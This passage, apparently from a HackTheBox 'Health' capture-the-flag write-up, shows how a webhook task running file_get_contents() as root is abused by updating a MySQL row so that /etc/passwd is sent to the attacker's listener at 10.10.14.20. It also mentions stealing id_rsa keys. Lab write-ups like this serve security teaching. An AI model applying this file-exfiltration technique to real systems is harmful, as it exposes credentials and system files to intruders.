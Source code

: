 **file_get_contents()** – This is going to display the text within file(s) by reading the contents as a string, and will not interpret PHP code for execution. Because of this we can enumerate files on the filesystem, as root, and steal `id_rsa` or just grab the flag `root.txt` straight away.

As a PoC, lets try to get `/etc/passwd` printed to my webhookUrl/PayloadURL:
1. Create a new webhook
![[/assets/images/htb-writeup-health/health03.png]]

2. Verify that it exists in `laravel.tasks`:
```bash
mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl        | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
| 7ec7e20c-3011-4143-8aef-2e6057086327 | http://10.10.14.20:8888/ |         0 | http://10.10.14.20/ | */1 * * * * | 2022-08-24 11:49:26 | 2022-08-24 11:49:26 |
+--------------------------------------+--------------------------+-----------+---------------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)
```

3. [Update](https://devhints.io/mysql) the entry and change monitoredUrl to wanted file (`/etc/passwd`)
```bash
mysql> update tasks set monitoredUrl = "/etc/passwd";
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+--------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+--------------+-------------+---------------------+---------------------+
| 7ec7e20c-3011-4143-8aef-2e6057086327 | http://10.10.14.20:8888/ |         0 | /etc/passwd  | */1 * * * * | 2022-08-24 11:49:26 | 2022-08-24 11:49:26 |
+--------------------------------------+--------------------------+-----------+--------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)
```

4. Wait for the webhook callback and reap the rewards.
```bash
➜  health python3 webserv.py 8888
[... snip ...]
Body:
```